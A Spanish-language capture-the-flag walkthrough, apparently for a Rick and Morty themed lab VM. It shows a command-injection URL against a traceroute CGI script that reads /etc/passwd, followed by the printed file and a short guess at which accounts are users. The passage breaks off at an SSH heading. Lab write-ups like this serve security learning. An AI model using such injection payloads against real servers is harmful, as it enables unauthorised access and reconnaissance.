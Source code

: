 ## Robots.txt

Dentro de la url http://192.168.56.130/robots.txt hay 2 rutas. En la ruta /cgi-bin/tracertool.cgi parece que en este cgi se pueden ejecutar comandos. Ya que al escribir la ip de la maquina, devuelve traceroute. Entonces se puede intentar hacer inyecciones de CGI

```bash
/cgi-bin/tracertool.cgi?ip=192.168.56.130;more+/etc/passwd
```
Esto mostrara el archivo passwd, útil para ver los users del servidor:

```bash
::::::::::::::
/etc/passwd
::::::::::::::
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:996:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin

```
Hay como posibles candidatos a user : Summer, Morty, RickSanchez. Ya que es típico que tengan la UID del 1000

## SSH - 2
